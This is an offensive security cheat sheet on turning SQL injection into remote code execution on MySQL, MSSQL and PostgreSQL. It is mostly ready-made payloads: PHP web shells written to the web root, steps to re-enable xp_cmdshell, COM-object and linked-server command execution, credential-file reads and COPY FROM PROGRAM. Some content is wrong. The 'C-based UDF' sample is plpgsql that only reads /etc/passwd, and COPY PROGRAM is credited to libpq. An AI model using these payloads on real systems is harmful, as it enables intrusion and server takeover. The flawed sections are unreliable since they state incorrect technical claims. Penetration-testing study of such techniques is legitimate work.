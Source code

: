 # SQL To RCE

SQL Injection (SQLi) vulnerabilities can potentially escalate to **Remote Code Execution (RCE)** if certain conditions are met, depending on the target **database management system (DBMS)**. Here's how SQLi can be escalated to RCE across three common databases: **MySQL**, **MSSQL**, and **PostgreSQL**, along with the methods used.

***

## **MySQL: SQLi to RCE**

### **Method 1: INTO OUTFILE for Web Shell Upload**

* **Condition**: The MySQL user running the query has **file write permissions** (e.g., `FILE` privilege), and the web server is serving files from a directory writable by the database.
* **How it works**: By exploiting the `INTO OUTFILE` feature, an attacker can write arbitrary content (like a **PHP web shell**) to a directory served by the web server.

**Steps**:

1.  Write a web shell (or any code) to the file system using `INTO OUTFILE`:

    ```sql
    SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php';
    ```
2.  Access the uploaded file (`shell.php`) via a web browser and execute system commands by passing them as parameters:

    ```
    http://target.com/shell.php?cmd=whoami
    ```

* **Outcome**: RCE via the uploaded shell file.

### **Method 2: LOAD\_FILE() Function**

* **Condition**: The attacker needs to have **read access** to the file system.
* **How it works**: The `LOAD_FILE()` function can be used to read sensitive files from the server. If sensitive credentials or system files (e.g., `/etc/passwd`) are exposed, these can aid in escalating to RCE.

**Steps**:

```sql
SELECT LOAD_FILE('/etc/passwd');
```

* While this doesn’t directly lead to RCE, it can expose critical system information that aids in escalation.

***

## **Microsoft SQL Server (MSSQL): SQLi to RCE**

### **Method 1: xp\_cmdshell Command Execution**

* **Condition**: The `xp_cmdshell` stored procedure is enabled (it is disabled by default but can be re-enabled if the attacker has administrative privileges).
* **How it works**: `xp_cmdshell` allows running arbitrary OS commands from SQL Server. An attacker can exploit SQLi to execute system commands.

**Steps**:

1.  Enable `xp_cmdshell` if it's disabled:

    ```sql
    EXEC sp_configure 'show advanced options', 1;
    RECONFIGURE;
    EXEC sp_configure 'xp_cmdshell', 1;
    RECONFIGURE;
    ```
2.  Use `xp_cmdshell` to execute OS commands:

    ```sql
    EXEC xp_cmdshell 'whoami';
    ```
3. The output will give the user running the SQL service, and further commands can be executed for RCE.

### **Method 2: sp\_OACreate COM Objects**

* **Condition**: The attacker has sufficient privileges to execute **OLE Automation Procedures**.
* **How it works**: The `sp_OACreate` procedure allows creating COM objects that can execute system commands.

**Steps**:

```sql
DECLARE @shell INT;
EXEC sp_OACreate 'WScript.Shell', @shell OUTPUT;
EXEC sp_OAMethod @shell, 'Run', NULL, 'cmd.exe /c whoami';
```

* **Outcome**: RCE via system command execution.

### **Method 3: Linked Servers for Command Execution**

* **Condition**: SQL Server is configured with linked servers, allowing connections to remote systems.
* **How it works**: An attacker can exploit the `OPENROWSET` function to execute commands on a linked server, potentially leading to RCE on that system.

**Steps**:

```sql
EXEC('master..xp_cmdshell ''whoami''') AT [linked_server_name];
```

* **Outcome**: RCE on the linked server.

***

## **PostgreSQL: SQLi to RCE**

### **Method 1: COPY TO/FROM for Web Shell Upload**

* **Condition**: The attacker has write permissions on the file system, and PostgreSQL has access to a directory served by a web server.
* **How it works**: The `COPY` command can write query results to a file on the server, which can be used to upload a web shell.

**Steps**:

1.  Use `COPY` to write a web shell:

    ```sql
    COPY (SELECT '<?php system($_GET["cmd"]); ?>') TO '/var/www/html/shell.php';
    ```
2.  Access the web shell via the browser:

    ```
    http://target.com/shell.php?cmd=whoami
    ```

### **Method 2: PostgreSQL User-Defined Functions (UDF)**

* **Condition**: The attacker can create and execute **User-Defined Functions** in languages like `C` or `PL/pgSQL`.
* **How it works**: PostgreSQL allows creating UDFs in various languages. An attacker can create a UDF in C that executes system commands, leading to RCE.

**Steps**:

1.  Create a C-based UDF to execute system commands:

    ```sql
    CREATE OR REPLACE FUNCTION exec_cmd(text) RETURNS void AS $$
    DECLARE
      result text;
    BEGIN
      result := pg_read_file('/etc/passwd', 0, 8192);
      RAISE NOTICE '%', result;
    END;
    $$ LANGUAGE plpgsql;
    ```
2.  Execute the command:

    ```sql
    SELECT exec_cmd('whoami');
    ```

### **Method 3: libpq `COPY PROGRAM` for Command Execution**

* **Condition**: The attacker needs to be able to leverage the `COPY PROGRAM` feature of the PostgreSQL `libpq` library.
* **How it works**: The `COPY PROGRAM` allows executing commands directly on the server when copying data to or from external files.

**Steps**:

```sql
COPY test_table FROM PROGRAM 'id';
```

* **Outcome**: Direct command execution leading to RCE.

***

#### Summary of SQLi to RCE Escalation:

| **Database**   | **Method**                   | **Conditions**                              | **RCE Methodology**                                      |
| -------------- | ---------------------------- | ------------------------------------------- | -------------------------------------------------------- |
| **MySQL**      | INTO OUTFILE                 | File write permissions (`FILE` privilege)   | Upload web shell or arbitrary file.                      |
|                | LOAD\_FILE()                 | File read permissions                       | Read sensitive files to escalate further.                |
| **MSSQL**      | xp\_cmdshell                 | `xp_cmdshell` enabled                       | Execute system commands directly.                        |
|                | sp\_OACreate                 | Admin privileges, OLE Automation enabled    | Execute commands through COM objects.                    |
|                | Linked Servers               | Linked server configured                    | Execute commands on remote linked servers.               |
| **PostgreSQL** | COPY TO/FROM                 | Write permissions on the file system        | Upload web shell or arbitrary file.                      |
|                | User-Defined Functions (UDF) | Ability to create UDFs in `C` or `PL/pgSQL` | Create a function that executes system commands.         |
|                | COPY PROGRAM                 | Access to `libpq` with `COPY PROGRAM`       | Execute system commands directly through `COPY PROGRAM`. |
